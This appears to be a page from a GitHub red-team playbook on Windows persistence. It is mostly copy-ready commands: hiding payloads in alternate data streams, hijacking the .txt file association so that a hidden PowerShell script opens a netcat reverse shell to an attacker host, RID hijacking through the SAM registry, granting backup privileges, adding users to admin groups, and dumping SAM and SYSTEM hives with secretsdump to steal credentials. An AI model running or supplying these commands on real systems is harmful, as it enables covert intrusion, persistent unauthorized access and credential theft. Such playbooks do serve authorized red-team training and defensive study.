 # 5.1 Persistence

## Table of Contents

- [Alternate Data Stream Files (ADS)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Alternate-Data-Stream-Files-ADS)
- [Hijack File Associations](
- [Normal.dotm](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Normaldotm)
- [Relative ID (RID) Hijacking](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Relative-ID-RID-Hijacking)
- [Special Privileges and Security Descriptors](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Special-Privileges-and-Security-Descriptors)
- [User Group Manipulation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#User-Group-Manipulation)

## Alternate Data Stream Files (ADS)

```c
C:\> echo <PAYLOAD> > %USERPROFILE%\AppData:<FILE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads1.png">
</p>

### Listing ADS Files

```c
C:\> dir /r /a %USERPROFILE%\AppData\
```

### Deleting ADS Files

> https://live.sysinternals.com/

```c
C:\> .\streams64.exe -s C:\PATH\TO\FOLDER\
C:\> .\streams64.exe -d C:\PATH\TO\FOLDER\
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads2.png">
</p>

## Hijacking File Associations

Registry Path.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
```

Now search for the desired `file extention` and change the `Programmatic ID (ProgID)`.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command
```

Then build a `PowerShell Script` and place it anywhere on the target.

```c
Start-Process -NoNewWindow "C:\temp\nc64.exe" "-e cmd.exe <LHOST> <LPORT>"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Next change the `Registry Key` to point to the script.

```c
powershell -windowstyle hidden C:\Windows\System32\<FILE>.ps1 %1
```

## Normal.dotm

Add a macro to the `Normal.dotm` which get's executed whenever `any` document is opened.

## Relative ID (RID) Hijacking

Get the current `RIDs`.

```c
PS C:\> wmic useraccount get name,sid
```

```c
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
```

Edit the `registry` by using `PsExec64.exe` to add the `RID` of `500`, which is a `Local Administrator` to another user.

```c
PS C:\> PsExec64.exe -i -s regedit
```

Path in Registry.

```c
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\
```

Under the corresponding key, there will be a vlaue called `F`, which holds the user's effective `RID`. Those are stored
by using `little-endian` notation, so the bytes appear `reversed`.

```c
500 = 0x01F4
```

Switched Bytes.

```c
F401
```

Save it and on the next login, the user should get `RID 500` assigned.

## Special Privileges and Security Descriptors

### Edit Special Privileges

Add `SeBackupPrivilege` and `SeRestore Privilege` to a user.

Export the configuration file.

```c
PS C:\> secedit /export /cfg config.inf
```

Edit the file and add the `username`.

```c
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
```

Convert the `.inf` file into a `.sdb` file and load the configuration back into the system.

```c
PS C:\> secedit /import /cfg config.inf /db config.sdb
PS C:\> secedit /configure /db config.sdb /cfg config.inf
```

### Enable WinRM Security Descriptor

Open the `permission window` and add a user, which should granted `Full Control` in order to `remote login`.

```c
PS C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## User Group Manipulation

Add user to `Local Administrators` group.

```c
PS C:\> net localgroup administrators <USERNAME> /add
```

Add user to `Backup Operators` group.

```c
PS C:\> net localgroup "Backup Operators" <USERNAME> /add
```

Add user to `Remote Desktop Users` group.

```c
PS C:\> net localgroup "Remote Management Users" <USERNAME> /add
```

Disable `LocalAccountTokenFilterPolicy`.

```c
PS C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Dumping `SAM` and `SYSTEM` files with `Backup Operator` privileges.

```c
PS C:\> reg save hklm\system system.bak
```

```c
PS C:\> reg save hklm\sam sam.bak
```

```c
$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)

### Next

- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
